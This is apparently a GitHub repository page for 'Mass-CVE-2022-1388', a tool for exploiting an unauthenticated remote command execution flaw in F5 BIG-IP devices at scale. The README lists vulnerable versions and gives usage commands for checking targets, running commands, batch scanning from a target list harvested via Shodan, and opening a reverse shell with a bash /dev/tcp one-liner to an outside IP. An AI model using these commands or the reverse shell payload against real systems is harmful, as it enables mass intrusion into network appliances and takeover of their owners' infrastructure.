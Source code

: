 # Mass-CVE-2022-1388

Mass-Exploit-CVE-2022-1388

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/electr0lulz](https://github.com/electr0lulz) |
| Url      | [https://github.com/electr0lulz/Mass-CVE-2022-1388](https://github.com/electr0lulz/Mass-CVE-2022-1388)                                               |
| Stars    | 3                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>

* 1388* bash* big-ip* cve* cve-2022-1388* f5* f5-bigip* f5networks* python* shodan

</details>

## Readme

## Dorks scan will be available soon. 
Unfortunatelly is required a shodan account with basic feature to obtain more than 20k targets..


## Vuln Impact

This vulnerability may allow an unauthenticated attacker with network access to the BIG-IP system through the management port and/or self IP addresses to execute arbitrary system commands, create or delete files, or disable services. 

## Vuln Product
- F5 BIG-IQ 11.6.1 - 11.6.5
- F5 BIG-IP 12.1.0 - 12.1.6
- F5 BIG-IP 13.1.0 - 13.1.4
- F5 BIG-IP 14.1.0 - 14.1.4
- F5 BIG-IP 15.1.0 - 15.1.5
- F5 BIG-IP 16.1.0 - 16.1.2
## Vunl Check

**Basic usage**

```
python3 expl.py
```

**Vuln check**

```
python3 expl.py -v true -u https://192.168.17.200
```


**command execute:**

```
python3 expl.py -a true -u https://192.168.17.200/ -c id
```


```
python3 expl.py -a true -u https://192.168.17.200/ -c whoami
```


**batch scan**

```
python3 expl.py -s true -f check.txt
```


**Reserve Shell**

```
python3 expl.py -r true -u https://192.168.17.200 -c "bash -i >&/dev/tcp/192.168.17.175/8888 0>&1"
```

## Reference
https://support.f5.com/csp/article/K23605346<br>
https://mp.weixin.qq.com/s/OC52LIGB5NTITy9EjvKdaw<br>
https://twitter.com/jas502n/status/1523611433938059265<br>
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-1388<br>
https://github.com/rancher/rancher/security/advisories/GHSA-pvxj-25m6-7vqr<br>



## Get the content

```
git clone https://github.com/electr0lulz/Mass-CVE-2022-1388
cd Mass-CVE-2022-1388
```

{% embed url="https://github.com/electr0lulz/Mass-CVE-2022-1388" %}

<figure><img src="https://avatars.githubusercontent.com/u/106660834?v=4" alt=""><figcaption><p>electr0lulz</p></figcaption></figure>
